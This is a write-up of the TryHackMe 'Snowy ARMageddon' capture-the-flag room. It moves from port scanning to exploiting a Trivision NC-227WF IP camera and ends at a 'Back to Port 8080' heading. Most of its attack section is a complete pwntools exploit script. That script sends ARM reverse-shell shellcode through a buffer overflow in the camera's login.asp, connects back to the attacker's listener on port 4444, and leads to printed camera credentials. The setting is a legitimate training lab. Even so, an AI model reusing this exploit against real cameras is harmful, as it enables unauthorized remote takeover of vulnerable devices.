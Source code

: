 # Snowy ARMageddon
<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/f54ecb7d1f43f336714d5b8363d02834.png" height="150">

## Breaching the CyberPolice perimeter
Ho ho, lads and lasses! Van Spy's whispers are golden! By pickin' apart the packet data we've sniffed out a mysterious device in the CyberPolice building. Seems like this old thing's been forgotten in their tech upgrade blizzard. It's as neglected as a lone iceberg.

This clunky old device is a buzzin', ripe for the pickin'. If we can get our claws into this enigmatic device, we'll have ourselves a sly backdoor right into the CyberPolice's icy fortress. Imagine the treasure troves of secrets just waitin' to be plundered! And oh, the cherry on top – we might just finagle our way into Frost-eau's laptop. That'll spill the beans on this Best Festival Company and AntarctiCrafts merger. McSkidy, that clever elf who snagged me last time, ought to keep an eye over her shoulder!

Remember, though, nothin' in the South Pole comes easy. But am I, the Bandit Yeti, the one to back down from a challenge? Never! Let's roll up our sleeves and dive into this digital snowstorm. The Bandit Yeti don't wait for no winter!

### The Yeti Hints!
Alright, my frosty friend, it's time to gear up for a simulated red team engagement. Think like the Yeti – be stealthy, keep it low-profile. We're treadin' through digital snow here, so make sure to minimize any detectable noise. It's like stalkin' a penguin in a blizzard; you gotta be silent, you gotta be sneaky. Now, if you get noisy at any point, don't get all ruffled if you hit a wall and find yourself blocked. It happens to the best of us, even the Bandit Yeti. Sometimes you gotta backtrack to the start, rethink your strategy. It's all part of the icy dance.

Your main target? Access that internal-only web application. That's where the juicy stuff is hidden. Now, gettin' full privileges on the machine – that's a tasty bonus, but don't sweat it if it's out of reach. The key is to complete the mission without kickin' up a snowstorm.

Remember, this is all about bein' as silent as the falling snow and as cunning as the arctic fox. Ready? Let's dive into this digital blizzard and show 'em what the Bandit Yeti's made of!

### Questions
1. What is the content of the first flag?
2. What is the content of the `yetikey2.txt` file?

## Writeup

### Reconaissance
First things first, let's launch the challenge VM and see what ports we have open.
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5e:43:0f:fe:f5:6f:02:d6:92:1d:42:fe:10:3c:31:05 (RSA)
|   256 d7:16:80:64:ed:1e:29:4a:87:94:63:5a:fe:f1:be:8e (ECDSA)
|_  256 8b:e5:fd:06:3e:be:15:1a:0b:a9:a8:e4:98:26:80:35 (ED25519)
23/tcp    open  tcpwrapped
8080/tcp  open  http       Apache httpd 2.4.57 ((Debian))
|_http-title: TryHackMe | Access Forbidden - 403
|_http-server-header: Apache/2.4.57 (Debian)
50628/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
#### Port 22 - SSH
We don't have much to exploit this yet.

#### Port 23
Port 23 is normally utilized by Telnet.  Tried connecting with `nc -v $IP 23`, but the server killed the connection immediately; tried this a few times with the same result.  Maybe we'll come back to this later.

#### Port 8080
Seems to be some sort of protection on this website.  Without any further enumeration or use of tools, every attempt to poke around the website leads me to the following error:
![only elves](sq2-pic1.png)

#### Port 50628
A quick check of this port yields something potentially useful!  Seems we have a Trivision NC-227WF HD 720P.
![webcam](sq2-pic2.png)

### IP Camera Exploitation
A quick Google search for Trivision 227WF exploits brings me to https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html. This blog post mentions about 7 potential exploits worth checking out:

* CVE-2017-8224 - Backdoor account
* CVE-2017-8222 - RSA key and certificates
* CVE-2017-8225 - Pre-Auth Info Leak (credentials) within the custom http server
* Authenticated RCE as root
* Pre-Auth RCE as root
* CVE-2017-8223 - Misc - Streaming without authentication
* CVE-2017-8221 - Misc - "Cloud" (Aka Botnet)

Unfortunately, none of these really seemed to pan out.  Started digging deeper, and included the ARM architecture clue in the room name into my searches.  I came across the following write-up: https://no-sec.net/arm-x-challenge-breaking-the-webs/.  Same camera, bingo!

Looking at their assembly and related python script, it seems the callback to the reverse shell is hard coded in.  We need to find a way to use our VPN IP, which of course contains a `10` (`0x0a` which is a bad character).  Here's the original assembly vs. my modification:
```asm
22      mov r1, #0x164
23      lsl r1, #8
24      add r1, #0xa8
25      lsl r1, #8
26      add r1, #0xc0
27      push {r1}       // 192.168.100.1
```
```asm
mov r1, #0xe6	// 230
lsl r1, #8
add r1, #0x1b	// 27
lsl r1, #8
add r1, #0x06	// 6
lsl r1, #8
add r1, #0x08
add r1, #0x02   // (2+8, 10 is bad char)
push {r1}       // 10.6.27.230
```
Now, let's convert the ARM assembly into shellcode and update the python script.  A good tool for this can be found here: https://shell-storm.org/online/Online-Assembler-and-Disassembler/
```python
from pwn import *
   
HOST = '10.10.162.234'
PORT = 50628
LHOST = [10,6,27,230]
LPORT = 4444
 
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'
BAD = False
LIBC_OFFSET = 0x40021000
LIBGCC_OFFSET = 0x4000e000
RETURN = LIBGCC_OFFSET + 0x2f88    # libgcc_s.so.1: bx sp   0x40010f88
SLEEP = LIBC_OFFSET + 0xdc54    # sleep@libc 0x4002ec54
 
pc = cyclic_find(0x63616176)  # 284
r4 = cyclic_find(0x6361616f)  # 256
r5 = cyclic_find(0x63616170)  # 260
r6 = cyclic_find(0x63616171)  # 264
r7 = cyclic_find(0x63616172)  # 268
r8 = cyclic_find(0x63616173)  # 272
r9 = cyclic_find(0x63616174)  # 276
r10 = cyclic_find(0x63616175) # 280
sp = cyclic_find(0x63616177)  # 288
 
SC  = b'\x10\xd0\x4d\xe2'     # sub sp, 16
SC += b'\x68\x10\xa0\xe3\x01\x14\xa0\xe1\x73\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5\x6e\x10\xa0\xe3\x01\x14\xa0\xe1\x69\x10\x81\xe2\x01\x14\xa0\xe1\x62\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5'      # /bin/sh
SC += b'\xe6\x10\xa0\xe3' # mov r1, #0xe6 (230)
SC += b'\x01\x14\xa0\xe1' # lsl r1, #8
SC += b'\x1b\x10\x81\xe2' # add r1, #0x1b (27)
SC += b'\x01\x14\xa0\xe1' # lsl r1, #8
SC += b'\x06\x10\x81\xe2' # add r1, #0x06 (6)
SC += b'\x01\x14\xa0\xe1' # lsl r1, #8
SC += b'\x08\x10\x81\xe2' # add r1, #0x08
SC += b'\x02\x10\x81\xe2' # add r1, #0x02 (2+8 = 10)
SC += b'\x04\x10\x2d\xe5' # push {r1} (10.6.27.230)
SC += b'\x5c\x10\xa0\xe3\x01\x14\xa0\xe1\x11\x10\x81\xe2\x01\x18\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # 4444; AF_INET, SOCK_STREAM
SC += b'\xef\x30\xa0\xe3\x03\x3c\xa0\xe1\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x0c\x10\x81\xe2\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe9\x10\xa0\xe3\x01\x14\xa0\xe1\x2d\x10\x81\xe2\x01\x18\xa0\xe1\x05\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x18\xa0\xe1\x18\x10\x81\xe2\x04\x10\x2d\xe5'   # execve()
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDERR)
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dub2(STDOUT)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x31\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x21\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDIN)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1c\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x50\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\xb0\x10\x81\xe2\x01\x14\xa0\xe1\x04\x10\x2d\xe5'   # connect()
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1a\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x81\x10\x81\xe2\x01\x18\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5'   # socket()
#SC += b'\x01\x0c\xa0\xe3'   # mov r0, #256  ; sleep for 256s to avoid cache coherency issues
#SC += b'\x3a\xff\x2f\xe1'   # blx r10       ; r10 contains address of sleep@libc
SC += b'\x1d\xff\x2f\xe1'   # bx sp
 
info('Shellcode length: %d' % len(SC))
for i in range(len(SC)):
  if SC[i] in BADCHARS:
    print('BAD CHARACTER in position: %d!')
    BAD = True
if BAD:
  exit(1)
 
buffer  = b'A' * r10
buffer += p32(SLEEP)    # overwrite r10 with address of sleep()
buffer += p32(RETURN)   # bx sp
buffer += SC
 
s = remote(HOST, PORT)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')
 
nc = listen(LPORT)
nc.wait_for_connection()
nc.interactive()
s.close()
nc.close()
```
After script execution, we get our reverse shell... time to poke around for something useful.  A few minutes of searching, and voila, `/var/etc/umconfig.txt`.  This file gives us what I hope is the login to the IP camera stream:
```
u = admin
pass = Y3tiStarCur!ouspassword=admin
```
![webcam-feed](sq2-pic3.png)

### Back to Port 8080
